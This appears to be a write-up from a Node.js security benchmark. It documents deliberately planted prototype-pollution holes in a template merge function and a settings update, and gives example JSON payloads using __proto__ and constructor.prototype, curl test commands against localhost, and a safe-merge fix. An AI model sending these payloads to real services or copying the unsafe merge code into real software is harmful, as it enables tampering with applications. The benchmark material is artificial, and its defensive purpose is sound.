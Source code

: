 # Prototype Pollution Vulnerability

## Description
This vulnerability allows an attacker to modify the prototype of JavaScript objects through malicious user input. The application has two vulnerable components:
1. Template System - Uses unsafe recursive object merging
2. Settings System - Uses vulnerable Object.assign implementation

## Impact
- **Severity**: High
- **CVSS Score**: 7.5 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)

### Attack Scenarios
1. **Global Object Pollution**: Attackers can modify Object.prototype to affect all objects
2. **Function Prototype Pollution**: Can modify Function.prototype to affect all functions
3. **Constructor Pollution**: Can modify object constructors to affect new instances
4. **Nested Pollution**: Can pollute deeply nested objects

## Vulnerable Components

### 1. Template System
Location: `src/models/template.js`

Vulnerable code:
```javascript
function mergeTemplates(target, source) {
  for (let key in source) {
    if (typeof source[key] === 'object') {
      target[key] = mergeTemplates(target[key] || {}, source[key]);
    } else {
      target[key] = source[key];
    }
  }
  return target;
}
```

### 2. Settings System
Location: `src/models/settings.js`

Vulnerable code:
```javascript
function updateSettings(newSettings) {
  Object.assign(globalSettings, newSettings);
}
```

## Example Exploits

### 1. Basic Prototype Pollution
```http
POST /api/template
Content-Type: application/json

{
  "name": "Malicious Template",
  "__proto__": {
    "polluted": "Yes"
  }
}
```

### 2. Constructor Pollution
```http
POST /api/settings/update
Content-Type: application/json

{
  "constructor": {
    "prototype": {
      "polluted": "Yes"
    }
  }
}
```

### 3. Nested Pollution
```http
POST /api/template
Content-Type: application/json

{
  "name": "Nested Attack",
  "properties": {
    "a": {
      "b": {
        "__proto__": {
          "polluted": "Yes"
        }
      }
    }
  }
}
```

## Testing
1. Run the test suite:
```bash
python test/test_prototype_pollution.py
```

2. Manual testing with curl:
```bash
# Test basic pollution
curl -X POST http://localhost:3001/api/template \
  -H "Content-Type: application/json" \
  -d '{"name":"test","__proto__":{"polluted":"yes"}}'

# Verify pollution
curl http://localhost:3001/api/template/settings
```

## Mitigation
To fix this vulnerability:
1. Validate object keys before merging
2. Use Object.create(null) for clean objects
3. Implement safe merge functions
4. Use JSON schema validation

Example safe merge:
```javascript
function safeMerge(target, source) {
  const result = {};
  for (const key of Object.keys(source)) {
    if (key === '__proto__' || key === 'constructor') continue;
    if (typeof source[key] === 'object') {
      result[key] = safeMerge(target[key] || {}, source[key]);
    } else {
      result[key] = source[key];
    }
  }
  return result;
}
```

## References
- [CWE-1321: Improperly Controlled Modification of Object Prototype Attributes ('Prototype Pollution')](https://cwe.mitre.org/data/definitions/1321.html)
- [OWASP - Prototype Pollution](https://owasp.org/www-community/vulnerabilities/Prototype_Pollution)
- Source: benchmark-nodejs collection-bench 